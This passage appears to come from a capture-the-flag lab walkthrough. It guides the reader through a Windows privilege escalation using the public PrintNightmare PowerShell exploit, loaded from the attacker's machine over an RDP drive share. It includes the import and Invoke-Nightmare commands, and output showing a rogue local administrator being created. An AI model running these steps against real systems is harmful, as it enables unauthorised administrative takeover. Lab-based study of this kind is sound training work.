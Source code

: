 Answer the questions below;
Most people take the easy option when it comes to passwords, which makes password reuse incredibly common.
With that in mind, use xfreerdp to connect to the target over RDP.


Task 6 : Attack Privilege Escalation

Windows exploitation is a massive topic which is complicated greatly by the common-place nature of various defence mechanisms -- Anti-Virus software being the most well-known of these. Exploiting an up-to-date Windows target with the default defences active is far outwith the scope of this room, so we will assume that the Atlas server has had the defence mechanisms de-activated.

At this point we would usually start to enumerate the target to look for privilege escalation opportunities (or potentially lateral movement opportunities in an Active Directory environment). WinPEAS and Seatbelt are prime examples of tools that we may wish to employ here; however, there are many other tools available, and manual enumeration is always a wise idea.

https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS
https://github.com/GhostPack/Seatbelt

That said, Windows enumeration can be daunting; there are hundreds of different vectors to consider. To keep this room simple, we will instead look at a set of exploits in the PrintSpooler service which are unpatched at the time of writing. PrintSpooler is notorious for privilege escalation vulnerabilities. It runs with the maximum available permissions (under the NT AUTHORITY\SYSTEM account) and is a popular target for vulnerability research. There have been many vulnerabilities found in this service in the past; however, one of the latest is referred to as "PrintNightmare".

We will use PrintNightmare to elevate our privileges on this target.

Answer the questions below
There are many different implementations of PrintNightmare available. You are advised to use a PowerShell version written by Caleb Stewart and John Hammond.
https://github.com/calebstewart/CVE-2021-1675

Navigate to the /tmp directory of your attacking VM, then clone the repository.
Remember that /drive:/tmp,share argument in the xfreerdp command? It's about to come in useful.
Inside your RDP session, open a new PowerShell Window.
The repository that we downloaded contains a PowerShell (.ps1) script that needs to be imported.
We can import it using:
. \\tsclient\share\CVE-2021-1675\CVE-2021-1675.ps1
Make sure to include the dot at the start!
This uses dot-syntax to import any functions exposed by the script. We are using \\tsclient\share to reference the share that we created. This allows us to view (and thus import) files that are stored in the /tmp folder of our own attacking machine!
Only one thing left to do: run the exploit!
We can start the ball rolling by executing Invoke-Nightmare.

PS C:\Users\Atlas> Invoke-Nightmare
[+] using default new user: adm1n
[+] using default new password: P@ssw0rd
[+] created payload at C:\Users\Atlas\AppData\Local\Temp\1\nightmare.dll
[+] using pDriverPath = "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_18b0d38ddfaee729\Amd64\mxdwdrv.dll"
[+] added user  as local administrator
[+] deleting payload from C:\Users\Atlas\AppData\Local\Temp\1\nightmare.dll
